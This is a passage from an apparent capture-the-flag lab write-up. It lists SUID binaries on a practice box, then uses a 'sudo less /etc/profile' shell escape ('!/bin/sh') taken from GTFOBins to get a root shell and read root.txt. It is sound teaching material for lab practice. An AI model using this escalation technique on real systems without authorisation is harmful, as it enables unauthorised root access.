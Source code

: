 ```bash
find: ‘/run/systemd/unit-root’: Permission denied
find: ‘/run/systemd/inaccessible’: Permission denied
find: ‘/run/lock/lvm’: Permission denied
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-sr-x 1 root root 109432 Oct 30  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1

-rwsr-xr-x 1 root root 43088 Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 170760 Dec  1  2017 /bin/less
-rwsr-xr-x 1 root root 26696 Jan  8  2020 /bin/umount
```

/bin/less stands out, We can use script of this website to became a root, in this case we choose less process: [https://gtfobins.github.io/gtfobins/less/](https://gtfobins.github.io/gtfobins/less/)

```bash
sudo less /etc/profile
!/bin/sh
```

```bash
jake@brookly_nine_nine:/$ sudo less /etc/profile
# whoami
root
```

Now, we're root!

```bash
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
```

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
